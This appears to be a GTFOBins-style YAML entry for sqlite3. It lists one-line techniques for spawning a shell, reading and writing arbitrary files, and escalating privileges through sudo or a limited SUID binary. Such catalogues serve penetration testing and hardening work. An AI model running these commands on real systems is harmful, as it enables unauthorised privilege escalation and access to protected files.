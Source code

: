 ```yaml
---
functions:
  shell:
    - code: sqlite3 /dev/null '.shell /bin/sh'
  file-write:
    - code: |
        LFILE=file_to_write
        sqlite3 /dev/null -cmd ".output $LFILE" 'select "DATA";'
  file-read:
    - code: |
        LFILE=file_to_read
        sqlite3 << EOF
        CREATE TABLE t(line TEXT);
        .import $LFILE t
        SELECT * FROM t;
        EOF
  sudo:
    - code: sudo sqlite3 /dev/null '.shell /bin/sh'
  limited-suid:
    - code: "./sqlite3 /dev/null '.shell /bin/sh'"
---
```

